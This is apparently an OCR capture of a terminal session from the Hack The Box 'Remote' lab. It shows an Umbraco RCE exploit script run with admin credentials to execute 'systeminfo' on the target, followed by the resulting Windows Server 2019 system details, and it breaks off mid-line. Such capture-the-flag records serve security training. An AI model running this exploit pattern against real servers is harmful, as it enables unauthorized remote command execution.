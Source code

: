 ```bash
   IPv4 Address. . . . . . . . . . . : 10.10.10.180
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:f488%12
                                       10.10.10.2




┌──(kali㉿kali)-[~/htb/Umbraco-RCE]
└─$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c 'systeminfo'

Host Name:                 REMOTE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00521-62775-AA801
Original Install Date:     2/19/2020, 3:03:29 PM
System Boot Time:          12/6/2024, 2:59:38 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
                           [02]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.24224532.B64.2408191458, 8/19/2024
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 872 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 1,297 MB
Virtual Memory: In Use:    1,134 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB4534119
                           [02]: KB4516115
                           [03]: KB4523204
                           [04]: KB4464455
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.180
                                 [02]: fe80::d136:9bf1:2389:97aa
                                 [03]: dead:beef::d136:9bf1:2389:97aa
                                 [04]: d
```
